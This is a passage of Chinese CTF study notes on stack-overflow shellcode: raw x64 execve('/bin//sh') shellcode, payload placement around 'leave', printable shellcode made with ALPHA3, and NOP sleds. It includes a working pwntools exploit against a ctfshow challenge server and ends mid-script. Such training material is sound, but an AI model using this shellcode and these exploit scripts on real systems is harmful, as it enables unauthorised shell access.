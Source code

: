 ```python
shellcode_x642="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

```

##### 特殊注意事项：

**leave:**  
leave的作用相当于MOV SP,BP；POP BP。
因为leave指令会释放栈空间，因此我们不能使用目标地址后面的24字节。
目标地址后的8个字节也不能存放（这里需要存放返回地址）。故我们的shellcode只能 放在目标首地址后的 24+8后的地址。

例如：溢出垃圾数据 +（可执行目标地址+32）+ shellcode

```python
payload = cyclic(0x10+8) + p64(v5 + 24+8) + shellcode
```

**mmap： ** 

buf = mmap(0, 0x400u, 7, 34, 0, 0); ：这行代码使用 mmap 函数分配一块内存区域，将其起 始地址保存在变量 buf 中。
此时在buf中的shellcode仍然可以执行。

**输入字符限定：**

对于shellcode进行字符筛选，我们只能使用有限的字符进行shellcode编写

使用pwntools生成一个shellcode，没法直接输出，有乱码，将shellcode重定向到一个文件中 切换 到alpha3目录中，使用alpha3生成string.printable 。string.printable，就是可见字符shellcode。

```
cd alpha3
python ./ALPHA3.py x64 ascii mixedcase rax --input="存储shellcode的文件" > 输出
文件
#存在检查：
shellcode = '\x00\xc0'  + asm(shellcraft.sh()) 
```

##### nop sled:

nop sled 是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过输入字符串注入攻击代码。在实际的攻击代码前注入很长的 nop 指令 （无操作，仅使程 序计数器加一）序列， 只要程序的控制流指向该序列任意一处，程序计数器逐步加一，直到到达攻击代码的存在的地址， 并执行。

将 shellcode 填充为以 nop 指令开头 ( 0x90 )进行滑栈。

```python
#32位
#ctfshow 67
from pwn import *
context(arch='i386',os='linux',log_level = 'debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28155)
shellcode = asm(shellcraft.sh())
payload = '\x90'*1336 + shellcode
io.recvuntil("The current location: 0x")
addr = u64(unhex(io.recvline(keepends=False).zfill(16)),endian='big')
print ("Addr: " + hex(addr))
io.recvuntil("> ")
io.sendline(payload)
io.recvuntil("> ")
sh = addr + 668 + 0x2d;
print("Sending: " + hex(sh))
io.sendline(hex(sh))
io.interactive()


#64位
#ctfshow 68
from pwn import *
```